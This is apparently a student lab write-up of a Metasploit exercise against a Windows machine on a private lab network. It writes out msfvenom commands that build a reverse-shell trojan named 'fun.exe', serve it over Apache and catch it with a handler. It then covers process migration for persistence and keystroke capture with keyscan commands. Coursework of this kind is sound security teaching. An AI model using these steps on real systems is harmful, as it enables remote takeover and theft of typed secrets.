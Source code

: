# EX 6: Compromising-windows-using-Metasploit
Compromising windows using Metasploit
``
Name: Prabha C
Register no:212222110032
``
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![240485931-d9b9e488-6580-4969-a3d2-5061443c0ed1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/738403cb-ddf8-4e5f-af5b-50f6531673bc)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![240482360-12b58fda-5cec-4e47-872b-b838ef920d46](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/57c1fa09-ae80-401b-8422-41213b252aee)




copy the fun.exe into the apache /var/www/html folder
![240482762-37d7e507-5d47-4ddb-ba93-586f6d73a51b](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/379bf937-8d1d-47ca-9ca3-9dc95c1c0db5)


Start apache server
sudo systemctl apache2 start

![240482920-0d0224f9-d80c-42b9-a3ab-09b48da66a27](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/2a8aefe2-4668-467c-a3af-57a346f5d9da)



Check the status of apache2
![240483068-77516604-9c4f-4317-a188-c41de4625542](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/e9323521-d25e-4418-a86b-66c9d872a4dd)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![240483481-938f78c9-0e8a-42ef-847c-a7cee7393beb](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/08007393-8ae5-4095-a288-688b21b6654c)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![240483850-4cf82361-ac00-46ab-92a2-3f09592d98d5](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/a5afa68b-3991-4c94-a8d2-2f4c22bb656d)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![240484009-fee0700e-bafd-4e76-af72-f5ac23a5d6ba](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/6803b629-2f0b-46b6-a1b1-37333b5fa25e)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![240486096-b2d36ca1-64a2-4863-a648-4ef4a8727dd9](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/c379f00d-1be8-4a25-8342-25ff9208cb8d)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![240485311-85fb473c-59fe-4042-b163-552fddc735d1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/b245228d-be3b-418f-8a4d-f0aeb3277dd1)



keyscan_dump	Shows the keystrokes captured so far
![240485244-785ef849-9095-4065-b38a-54b544a0c440](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/bd229a9d-ec46-4590-a561-d81cca631f57)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
